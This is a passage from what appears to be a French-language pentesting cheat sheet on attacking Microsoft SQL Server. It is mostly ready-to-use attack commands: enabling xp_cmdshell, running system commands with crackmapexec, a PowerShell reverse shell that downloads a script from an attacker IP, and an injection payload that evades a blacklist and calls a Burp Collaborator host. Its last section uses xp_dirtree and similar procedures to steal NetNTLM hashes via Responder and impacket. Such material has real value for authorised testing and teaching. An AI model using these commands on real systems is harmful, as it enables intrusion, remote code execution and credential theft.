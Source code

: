 ### Exécuter des commandes système

{% hint style="danger" %}
Notez que pour pouvoir exécuter des commandes système, il est non seulement nécessaire d'avoir **`xp_cmdshell`** **activé**, mais aussi d'avoir l'autorisation **EXECUTE sur la procédure stockée `xp_cmdshell`**. Vous pouvez vérifier qui (à l'exception des sysadmins) peut utiliser **`xp_cmdshell`** avec:
```sql
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
{% endhint %}
```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
### Voler le hachage NetNTLM / Attaque de relais

Vous devez démarrer un **serveur SMB** pour capturer le hachage utilisé dans l'authentification (`impacket-smbserver` ou `responder` par exemple).
```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
{% hint style="warning" %}
Vous pouvez vérifier si quelqu'un (à part les administrateurs système) a les autorisations pour exécuter ces fonctions MSSQL avec :
```sql
Use master;
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```